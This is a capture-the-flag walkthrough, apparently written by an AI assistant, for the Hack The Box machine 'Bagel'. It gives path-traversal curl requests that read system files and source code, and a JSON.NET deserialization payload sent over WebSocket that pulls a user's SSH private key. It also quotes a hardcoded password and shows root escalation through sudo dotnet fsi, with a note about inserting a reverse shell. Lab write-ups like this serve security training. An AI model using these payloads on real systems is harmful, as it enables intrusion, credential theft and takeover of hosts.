 Here’s your walkthrough for **HTB: Bagel**, using your custom template — full of juicy 💡 insights, solid 🛠️ commands, and of course, emojis galore! 🥯💥

---

# VENDOR: Bagel  
[HTB](HTB)

---

**Machine Info:**
- **IP**: `10.10.11.201`
- **OS**: Linux 🐧
- **Difficulty**: [Medium](Medium)
- **Exploits Used**:
  - [HTTP](HTTP) File Read via Flask route `?page=`
  - Python `proc` analysis to leak source
  - DLL retrieval from .NET server 🎯
  - JSON.NET deserialization exploit in WebSocket 📡
  - Private SSH Key exfiltration 🗝️
  - Pivot to developer via hardcoded creds
  - [dotnet](https://learn.microsoft.com/en-us/dotnet/core/tools/dotnet) F# execution as root via `sudo`

- **Open Ports**:
  - [SSH](SSH) (22)
  - [HTTP](HTTP) (8000) – Flask
  - [HTTP](HTTP) (5000) – WebSocket + .NET Core

---

[Tools](Tools)
- `nmap` 🔍
- `feroxbuster` 🦡
- `ffuf` 🚀
- `curl` 🌐
- `wscat` 📡
- `jq` 🧪
- `dnSpy` 🔬
- `dotnet`, `fsi`, and `bash` 🧠
- `ssh`, `su` 🧑‍💻

---

### Commands to Solve Box

#### 🔍 Recon
```bash
nmap -p- --min-rate 10000 10.10.11.201
nmap -p 22,5000,8000 -sCV 10.10.11.201
feroxbuster -u http://bagel.htb:8000
```

#### 📂 Initial Access (via Flask)
```bash
curl http://bagel.htb:8000/?page=../../../../etc/passwd
curl http://bagel.htb:8000/?page=../../../../proc/self/cmdline
curl http://bagel.htb:8000/?page=../../../../home/developer/app/app.py
```

#### 🧠 DLL Retrieval
```bash
curl http://bagel.htb:8000/?page=../../../../opt/bagel/bin/Debug/net6.0/bagel.dll -o bagel.dll
```
Open with [dnSpy](https://github.com/dnSpy/dnSpy) or `ilspy`.

#### 📡 WebSocket Deserialization
```bash
wscat -c ws://bagel.htb:5000
# Send malicious JSON:
{"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": "../../../../home/phil/.ssh/id_rsa"}}
```

Reformat the key:
```bash
echo $KEY | jq -r . > ~/keys/bagel-phil
chmod 600 ~/keys/bagel-phil
ssh -i ~/keys/bagel-phil phil@bagel.htb
```

#### 🔐 Pivot to developer
```bash
su - developer  # password from DLL: k8wdAYYKyhnjg3K
```

#### 👑 Root via dotnet F#
```bash
sudo dotnet fsi
> System.Diagnostics.Process.Start("bash").WaitForExit();;
```

Alt: Make custom C# app
```bash
mkdir /dev/shm/exploit && cd /dev/shm/exploit
dotnet new console
nano Program.cs  # insert reverse shell or bash
sudo dotnet run
```

---

### ✅ Actions Learned From This Box
- 🐍 How Flask apps can be abused through `?page=` file reads
- 🔍 Reconnaissance with `/proc` to locate running source code
- 📦 Decompiling .NET DLLs to discover vulnerabilities
- 🔓 JSON.NET deserialization bugs via TypeNameHandling 🧨
- 🗝️ Pivoting to users via private key exfiltration
- 💻 F# interactive exploitation for privilege escalation
- 🧰 Rebuilding structured payloads using `jq` and terminal tricks
- 🧪 Understanding .NET internals (runtimeconfig, dll paths, etc.)

---

### References 📚
- 📘 [Json.NET Deserialization Exploit Writeup](https://blog.doyensec.com/2020/02/10/json-deserialization-in-dotnet.html)
- 🧪 [wscat](https://github.com/websockets/wscat)
- 🔐 [F# Interactive (fsi)](https://learn.microsoft.com/en-us/dotnet/fsharp/tutorials/fsi/)
- 💣 [dotnet TypeNameHandling vulnerability](https://www.hanselman.com/blog/remote-code-execution-via-json-deserialization-in-net)
- 📦 [dnSpy GitHub](https://github.com/dnSpy/dnSpy)

---

Let me know when you're ready for another writeup! 🧠🔥🥯